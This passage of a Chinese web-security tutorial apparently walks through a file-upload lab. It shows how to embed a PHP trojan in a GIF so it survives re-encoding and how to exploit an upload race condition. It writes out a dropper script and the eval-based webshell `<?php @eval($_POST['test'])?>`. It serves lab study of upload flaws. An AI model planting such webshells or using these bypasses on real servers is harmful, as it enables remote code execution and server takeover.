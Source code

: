先用 Hex Friend 打开，在尾部添加一句话木马 `<?php phpinfo(); ?>`：

![](http://img.wukaipeng.com/2023/10/25-065615-image-20231025065614989.png)

我们下载上传后的图片，也用 Hex  Friend 打开，可以看下末尾，一句话木马已经被删除掉了。接着我们使用 Hex Friend 的对比功能：

![](http://img.wukaipeng.com/2023/10/25-065749-image-20231025065748851.png)



在查看对比的时候，可以看到只有后面大部分基本全部被改动过，只有前面部分改动比较小：

![](http://img.wukaipeng.com/2023/10/25-065930-image-20231025065930441.png)

![](http://img.wukaipeng.com/2023/10/25-070029-image-20231025070029644.png)

因此我们可以在前面部分插入一句话木马：

![](http://img.wukaipeng.com/2023/10/25-070316-image-20231025070316462.png)

然后重新上传，可以看到我们的一句话木马已经注入成功了。

> 如果没有成功的话，要多试几次
>
> 需要我这一张插入木马成功的 GIF 图，可以从这个地址下载：[⬇️ freedom gif](https://github.com/wukaipeng-dev/NetSecurity/blob/main/%E7%AC%AC%2009%20%E5%91%A8/%E8%AF%BE%E4%BB%B6/free%20freedom%20copy.gif) 

![](http://img.wukaipeng.com/2023/10/25-070405-image-20231025070404857.png)



### 文件包含绕过



## 服务端 - 代码逻辑（条件竞争）

**条件竞争**：服务端代码逻辑漏洞，导致资源没有正确被处理。比如并发的时候没有正确的加锁，导致多个线程同时访问

在 pass-18 中，文件是先上传再校验，因为可以利用上传到校验之间的空隙来执行木马。

先写一个 `cs.php` 脚本，脚本内容为生成一个 `shell.php` 文件，内容为 `<?php @eval($_POST["test"])?>`：

```php
<?php fputs(fopen('shell.php','w'), '<?php @eval($_POST["test"])?>');?>
```

上传 `cs.php`，用 Burp 拦截，并发送到 Intruder，然后在末尾加个空格，以此空格然后点击 `Add §` 按钮，生成一个「空格 Payload」：

![](http://img.wukaipeng.com/2023/10/25-080506-image-20231025080506730.png)

Payload type 选择「Null Payloads」，Payload settings 设置为「Continue indefinitely」，这样就能无限发送上传 `cs.php` 文件了：

![](http://img.wukaipeng.com/2023/10/25-081125-image-20231025081124979.png)

![](http://img.wukaipeng.com/2023/10/25-082843-image-20231025082843306.png)
